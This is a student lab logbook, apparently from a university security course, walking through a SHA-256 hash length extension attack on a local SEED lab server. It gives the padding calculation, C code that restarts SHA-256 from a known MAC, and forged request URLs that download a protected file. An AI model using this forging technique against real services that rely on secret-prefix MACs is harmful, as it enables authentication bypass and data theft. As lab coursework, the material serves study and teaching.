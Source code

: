 ## Hash Length Extension

#### Task 1: Send Request to List Files

First we picked a uid number from the ```key.txt```file: **1001:123456**.

We built the message: 
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```

To calculate the MAC, we ran the command:
```
$ echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1" | sha256sum
```
The result was **1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e  -**.

Then, we built the request and sent it using the browser: 
```
http://www.seedlab-hashlen.com/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This didn´t work, so we tried to use 10.9.0.80 in the url:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This time, it worked, showing the files successfully:


![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_2.png)


Then, we did the download request:
- We had to calculate the MAC again with 
```echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt" | sha256sum```
- Sent the updated url: 
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt&mac=289e9016b7caf160b0b116505c9452ac870b83598d95df94c221c47393d264d5
```

The request was successful, showing the files in LabHome and the content of ```secret.txt```!

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_3.png)

#### Task 2: Create Padding

We already have the message from Task1:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```
The length of the message is 43
bytes, so the padding is 64 - 43 = 21 bytes, including 8 bytes of the length field. 

The length of the message in
term of bits is 43 * 8 = 176 = 0x158. 

SHA256 will be performed in the following padded message:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x01\x58

```

Because of the 21 bytes of padding, we added ```\x00``` 18 times, because the other 3 bytes are ```\x80```and ```\x01\x58```.

Converting to URL enconding, we obtained:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
```


#### Task 3

We changed the file according to our attack:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[SHA256_DIGEST_LENGTH];
  SHA256_CTX c;
  
  SHA256_Init(&c);
  
  for(i=0; i<64; i++)
    SHA256_Update(&c, "*", 1);
    
  // MAC of the original message M (padded)
  c.h[0] = htole32(0x1b7ae954);
  c.h[1] = htole32(0xe7654d0d);
  c.h[2] = htole32(0xf10f49c0);
  c.h[3] = htole32(0x01b146bc);
  c.h[4] = htole32(0xc0034135);
  c.h[5] = htole32(0x5349f58f);
  c.h[6] = htole32(0xd7ce0b0e);
  c.h[7] = htole32(0x79e1d06e);
  
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 20);
  SHA256_Final(buffer, &c);
  
  for(i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Then we ran the code, obtaining the new MAC for the extended request:

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10.png)

Finally, we could build the url to the attack using:
- Request from task1
- Padding from task2: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
- MAC from task3: 301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d

This was the final URL:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d
```

The request was successful!! :)

![Image 4](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10_2.png)




